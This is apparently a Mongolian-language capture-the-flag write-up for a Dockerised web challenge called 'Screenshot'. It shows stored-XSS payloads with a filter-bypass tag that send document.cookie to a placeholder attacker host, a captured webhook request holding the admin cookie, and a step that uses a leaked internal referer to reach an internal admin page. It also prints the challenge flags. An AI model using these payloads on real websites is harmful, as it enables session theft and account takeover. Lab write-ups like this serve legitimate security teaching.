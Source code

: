 ## Асаах

`docker-compose up -d`

## Screenshot-1

`http://ipaddress/1337:/feed.php`
XSS өртөмтгий байх амархан шалгаж болно. 

```
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал


```
request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

Headers
connection: close
host: 	webhook.site
accept-language: 	en,*
accept-encoding: 	gzip, deflate
accept: 	*/*
user-agent: 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer:	http://screen/god-wisper.php
content-length: 	
content-type:	
```
flag
>HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

## Screenshot-2
admin.php рүү хандвал Зөвхөн дотоод IP хандана уу гэсэн байх бөгөөд XSS ээр ирсэн хүсэлтийг анхааралтай харвал. 

**`referer:	http://screen/god-wisper.php`** гэж байгаа

`http://screen/` гэдэг нь docker ийн дотоод url хаяг гэж харж болохоор байна. иймд `http://screen/admin.php` -н screenshot -г харвал 

flag гарч ирнэ. 

![9d7c1f6f904b57a79b892e.jpg](9d7c1f6f904b57a79b892e.jpg)
